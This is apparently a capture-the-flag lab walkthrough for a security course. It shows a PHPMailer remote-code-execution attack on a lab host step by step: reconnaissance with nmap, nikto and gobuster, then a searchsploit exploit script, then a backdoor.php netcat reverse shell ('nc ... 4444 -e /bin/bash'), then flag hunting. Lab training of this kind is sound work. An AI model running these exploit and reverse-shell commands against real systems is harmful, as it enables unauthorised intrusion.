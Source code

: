 # **TARGET 1 Offensive WalkThrough**

## Overview

You are working as a Security Engineer for X-CORP, supporting the SOC infrastructure. The SOC analysts have noticed some discrepancies with alerting in the Kibana system and the manager has asked the Security Engineering team to investigate.

To start, your team needs to confirm that newly created alerts are working. Once the alerts are verified to be working, you will monitor live traffic on the wire to detect any abnormalities that aren't reflected in the alerting system.

You will then report back all your findings to both the SOC manager and the Engineering Manager with appropriate analysis.

>##### Note: This is a walkthrough detailing one method to exploit the vulnerable machine. Likewise, other methods have been explored. Read Team: Summary of Operation and the PowerPoint presentation to find more methods not specified in this walkthrough.

---

Tools:

- Kali Linux
- Q shell
- Namp
- Nikto
- Gobuster
- FireFox Browser
- Searchsploit
- Bash Script
- NetCat

---

## **Walkthrough**

1. Run a commmand to see host IP and network adddresses

        ifconfig

    ![1](/Images/4/1.PNG)

2. Network FootPrinting (find machines on the network)

        nmap 192.168.1.0/24

    ![2](/Images/4/2.PNG)

3. Target 2 fingerprinting (find services and ports on target) 

        nmap -sV 192.168.1.115 

    ![3](/Images/4/3.PNG)

4.  Look for Webserver vulnerabilities using Nikto

        nikto -C all -h 192.168.1.115

    ![4](/Images/4/4.PNG)

5. Scan for paths in the webserver using Gobuster.

        gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115

    ![5](/Images/4/5.PNG)

6. Explore path `192.168.1.115/vendor/` using the browser 
   
        192.168.1.115/vendor/

    **PHPMAILER detected**

    ![6](/Images/4/6.PNG)     
   
7. Double click "PATH"

    **Flag1**

    ![7](/Images/4/7.PNG)

8. Double "Click SECURITY.md"

    **It reveals vulnerable versions of PHPMAILER.**

    ![8](/Images/4/8.PNG)    

9.  Double "Click VERSION" 

    **It reveals the PHPMAILER version in use**

    ![9](/Images/4/9.PNG)  

10. Look for scripts to exploit PHPMAILER with Searchsploit

        searchsploit phpmailer

    ![10](/Images/4/10.PNG)  

11. Look at the Bash Script to exploit  PHPMAILER

        searchsploit phpmailer -x php/webapps/40968.sh     

    **press "q" keyboard to quit view**

    ![11](/Images/4/11.PNG) 

12. Download the script to the current folder

        searchsploit phpmailer -m php/webapps/40968.sh

    ![12](/Images/4/12.PNG)

13. Authorize file to execute

        sudo chmod 777 40968.sh

14. run exploit

        ./40968.sh 192.168.1.115

    ![13](/Images/4/13.PNG)

    > Note: Now we know the PHPMAILER can be exploited, but the shell from this script does not allow to do much. We can find and use a more useful script that allows to create a more powerfull shell.

    Script: [exploit.sh](/Resources/explot.sh)

15. Change script URL

        nano exploit.sh

    **Use "CTRL X", then "y", and "enter" (to exit nano)**

    ![14](/Images/4/14.PNG)

16. Authorize file to execute

         sudo chmod 777 exploit.sh

17. Execute file

        ./exploit.sh

    ![15](/Images/4/15.PNG)

18. Set netcat to lisent on kali machine

         nc -lnvp 4444

    ![16](/Images/4/16.PNG)

19. Make exploited machine calls Kali Linux machine with a netcat command embedded in the next payload after running it in the browser.

        192.168.1.115/backdoor.php?cmd=nc 192.168.1.101 4444 -e /bin/bash

    **Change the second IP address for the one of your own kali linux machine.**

    ![17](/Images/4/17.PNG)

21. Look for flags with find command

        find /var/www -type f -iname 'flag*'

    ![18](/Images/4/18.PNG)

22. Open file

        cat /var/www/flag2.txt

    **flag2**

    ![19](/Images/4/19.PNG)

23. Look for others flags

        find -type f -iname '*flag*'

    **The "./" previous "wordpress" means the file is active on wordpress.**

    ![20](/Images/4/20.PNG)

24. Inset paths on the browser

        http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png

    **flag3**
   ![21](/Images/4/21.PNG)